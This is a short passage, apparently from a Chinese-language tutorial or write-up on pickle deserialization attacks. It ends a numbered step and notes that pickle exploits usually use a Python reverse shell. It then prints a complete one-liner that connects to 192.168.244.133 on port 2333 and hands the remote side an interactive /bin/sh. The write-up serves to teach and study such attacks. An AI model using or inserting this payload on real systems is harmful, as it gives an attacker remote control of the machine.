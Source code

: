 **第25步`.`结束**

一般pickle使用的反弹shell方法都是使用python

```python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.244.133",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

```</i></i>
```